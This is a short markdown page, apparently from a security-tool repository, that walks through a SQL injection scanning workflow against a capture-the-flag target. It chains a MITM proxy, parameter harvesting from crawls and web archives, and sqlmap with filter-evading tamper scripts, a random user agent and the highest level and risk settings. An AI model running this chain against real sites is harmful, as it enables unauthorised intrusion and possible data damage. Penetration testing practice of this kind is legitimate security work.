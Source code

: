 # SQLMap Over Zero-Trust

These will be invaluable for our SQLMap scan.

command sequence incorporating everything:

0. Run <a href="https://github.com/dewebdes/ZedAlert/blob/main/tools/fuzz/dns/multiproxy-injection-fat.py">MITM-CL</a> proxy:
   ```bash
   ./mitmweb --set block_global=false --ssl-insecure -s multiproxy-injection-fat.py > /dev/null 2>&1
   ```

1. Use <a href='https://github.com/dewebdes/ZedAlert/blob/main/app/fallparams'>`fallparams`</a> to crawl the target URL and gather parameters:
   ```bash
   ./fallparams -u https://ctf.com/Search.aspx -crawl
   ```

2. Use `waybackurls` and `unfurl` to gather additional parameters:
   ```bash
   echo "ctf.com" | ./waybackurls | ./unfurl keys | tee way-unf.txt
   ```

3. Combine all parameter sources into a single, unique wordlist including the top-27 XSS parameters:
   ```bash
   cat parameters.txt top-27-xss-parameter.txt way-unf.txt | sort | uniq > params.txt
   ```

4. Run SQLMap with the generated wordlist and crawling enabled:
   ```bash
   sqlmap -u "https://ctf.com/Search.aspx?postback=true&more=false&jto=1&q=consultant&rad=5&where=dusseldofr&indid=37&indid=4" --technique=T --batch --delay=25 --time-sec=15 --random-agent --tamper=between --tamper=space2comment --proxy=http://127.0.0.1:8080 --level=5 --risk=3 --crawl=3 -p $(cat params.txt | tr '\n' ',')
   ```

This comprehensive approach combines the strengths of parameter discovery tools with the thoroughness of SQLMap's scanning capabilities.
